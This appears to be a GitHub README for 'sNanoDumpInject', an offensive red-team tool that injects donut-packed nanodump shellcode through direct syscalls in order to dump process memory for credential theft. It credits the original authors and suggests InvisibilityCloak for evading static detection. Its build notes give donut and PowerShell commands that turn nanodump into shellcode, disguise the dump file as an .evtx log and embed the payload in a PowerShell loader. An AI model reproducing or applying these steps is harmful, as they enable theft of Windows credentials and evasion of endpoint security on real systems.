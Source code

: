 # sNanoDumpInject 

Minor syscall edit to [@s3cur3th1ssh1t](https://twitter.com/ShitSecure)'s [NanoDumpInject.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/NanoDumpInject.cs) from this [blog post](https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/).  

This repo contains code with donut'ed nanodump. DO NOT RUN random shellcodes inside random 0-star github repos. 

## Credits 

All credits to:
- @s3cur3th1ssh1t, @S4ntiagoP, @rastamouse, @ccob, 
- https://offensivedefence.co.uk/posts/Dynamic-syscalls/ 
- https://github.com/CCob/SharpBlock/blob/master/Program.cs#L37

Original Blog post & code: https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/

## Edits 

Added syscalls for the `Inject()` function. Small project to practice syscalls using DInvoke and creating a small syscall-only DInvoke.

## MISC/TODOs 

- Static Detection for DInvoke usually occurs in DInvoke strings. Use projects like [InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak) to reduce hits (13 -> 3)

- Learn what this PatchExit function is, and replace with syscalls as well? 


Things for myself 
```
// use "x64 Native Tools for VS" for nmake for donut and nanodump 

# Create donut'ed nanodump - change parameters 
./donut.exe -i nanodump\dist\nanodump.x64.exe -b=1 -p "--valid --write C:\windows\temp\trash.evtx" -o <somewhere>\nanodump.bin

# Copy/paste the nanodump base64 to here, and compile. 
[Convert]::ToBase64String([IO.File]::ReadAllBytes("<somewhere>nanodump.bin")) | clip

# Copy/paste the base64'ed dll and yeet it into the Invoke-sNanoDump.ps1 
[Convert]::ToBase64String([IO.File]::ReadAllBytes("<somewhere>\sNanoDumpInject.dll")) | clip
```